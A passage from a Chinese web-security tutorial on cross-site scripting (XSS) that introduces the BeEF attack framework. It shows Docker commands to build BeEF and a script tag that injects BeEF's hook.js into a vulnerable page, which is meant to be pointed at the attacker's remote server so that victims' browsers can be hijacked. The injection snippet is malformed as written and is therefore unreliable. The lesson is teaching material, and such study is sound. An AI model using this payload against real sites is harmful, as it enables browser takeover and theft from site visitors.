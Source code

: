 方法还有很多，因篇幅有限，这里不再赘述，你可以参考下面讲到的 XSS 攻击框架 BeEF，它在工具上集成了很多 XSS 攻击方式，可直接使用。

#### BeEF

这里我要介绍一款非常著名的 XSS 攻击框架 [BeEF](https://beefproject.com/)，它支持 Docker 快速安装，可以从 GitHub 下载然后编译安装：

```shell
$ git clone https://github.com/beefproject/beef
$ cd beef
$ sudo docker build -t beef .
$ sudo docker run -p 3000:3000 -p 6789:6789 -p 61985:61985 -p 61986:61986 --name beef beef
```

运行成功后，你会得到一个 hook.js 地址，这是利用 XSS 漏洞插入目标网站的攻击脚本地址。


<Image alt="Drawing 24.png" src="https://s0.lgstatic.com/i/image/M00/8B/A8/CgqCHl_cOyKADDkjAAC98rkZQJg985.png"/> 
  
图 25：返回 hook.js 和管理界面地址

我本地得到地址是：http://127.0.0.1:3000/hook.js（实际攻击时，可将 127.0.0.1 替换成你的远程服务器地址），那我就可以在漏洞页面插入如下代码进行利用：

```java
<script>http://127.0.0.1:3000/hook.js</script>
```

受害者访问后，若利用成功的话，在 BeEF 管理页面（此处为 http://127.0.0.1:3000/ui/panel）就可以看到目标上线了。


<Image alt="Drawing 25.png" src="https://s0.lgstatic.com/i/image/M00/8B/9D/Ciqc1F_cOymAFUlLAAJ8WDrvvw8214.png"/> 
  
图 26：BeEF 漏洞利用框架

刚运行的时候，BeEF 会生成随机密码，账号为 beef，比如：

```java
Beef credentials: beef:aaGivbkemeYNtCYRFrlyQN75lcmMYMm5
```

用上面的账号密码登录即可；你也可以修改 config.yaml 中的账号密码再运行。

BeEF 上面的利用功能实在是太多了，你可以把每个功能都试用一下，相信你试用完之后会对 XSS 的危害和利用手法有新的认识。

### 总结

最后，我对这一讲的内容做个总结。

首先，我介绍了 XSS 的起源以及危害，然后讲解了反射型、存储型和 DOM 型 XSS 的原理，并从代码层面分析了漏洞成因。随后我介绍了各种常见的 XSS 攻击手法，结合实例分析了 Cookie 窃取和蠕虫攻击的具体实现，帮助你进一步了解 XSS 的危害。

BeEF 是一款优秀的 XSS 攻击框架，包含有非常丰富的 XSS 漏洞利用功能，如果你想深入学习 XSS 的攻击手段，从 BeEF 入手是不错的选择。BeEF 已经在 GitHub 开源，主要是采用 JavaScript 和 Ruby 开发，你可以重点研究下漏洞利用中的 JavaScript 代码，即 hook.js 文件。

如果你有什么好的 BeEF 利用技巧，或者是其他优秀的 XSS 利用工具，欢迎你在留言区留言推荐。

下一讲，我将介绍如何挖掘三大类型的 XSS 漏洞以及如何防御，到时见\~


<Image alt="Lark20201224-160053.png" src="https://s0.lgstatic.com/i/image2/M01/03/E8/CgpVE1_kTHSAL9KqAAUNAGwX_GM335.png"/> 


